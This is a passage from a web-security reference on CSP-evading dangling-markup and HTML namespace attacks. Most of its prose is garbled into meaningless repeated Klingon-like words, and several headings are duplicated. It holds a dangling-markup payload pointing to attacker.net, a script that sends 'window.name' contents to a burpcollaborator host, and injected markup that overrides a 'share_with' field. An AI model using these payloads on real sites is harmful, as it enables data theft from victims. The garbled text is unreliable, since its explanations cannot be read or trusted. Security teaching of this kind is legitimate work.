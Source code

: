 [Portswiggers research](https://portswigger.net/research/evading-csp-with-dom-based-dangling-markup) vItlhutlh **CSP ghaH** **chaw'wI' CSP** **exfiltrate data** **user interaction**. vaj payload vItlhutlh:
```html
<a href=http://attacker.net/payload.html><font size=100 color=red>You must click me</font></a>
<base target='
```
Qapla'! jImej **ghaH** **link** **ghItlh** **vItlhutlh** **payload** **jatlh** **vItlhutlh**. jatlh **`target`** **attribute** **`base`** **tag** **HTML content** **vItlhutlh** **single quote** **vetlh**.\
**HTML content** **vItlhutlh** **link** **ghItlh** **vItlhutlh** **`window.name`** **value** **vItlhutlh**. So, **link** **ghItlh** **victim** **vItlhutlh** **page** **jImej** **click** **vItlhutlh**, **`window.name`** **vItlhutlh** **ghItlh** **ghItlh** **data** **vItlhutlh**.
```html
<script>
if(window.name) {
new Image().src='//your-collaborator-id.burpcollaborator.net?'+encodeURIComponent(window.name);
</script>
```
### Misleading script workflow 1 - HTML namespace attack

Insert a new tag with and id inside the HTML that will overwrite the next one and with a value that will affect the flow of a script. In this example you are selecting with whom a information is going to be shared:

### qoH script workflow 1 - HTML namespace attack

Insert a new tag with and id inside the HTML that will overwrite the next one and with a value that will affect the flow of a script. In this example you are selecting with whom a information is going to be shared:
```html
<input type='hidden' id='share_with' value='fredmbogo'>     ← Injected markup
...
Share this status update with:                              ← Legitimate optional element of a dialog
<input id='share_with' value=''>

...

function submit_status_update() {
...
request.share_with = document.getElementById('share_with').value;
...
}
```
### qoH script workflow 2 - Script namespace attack

Create variables inside javascript namespace by inserting HTML tags. Then, this variable will affect the flow of the application:

### qoH script workflow 2 - Script namespace attack
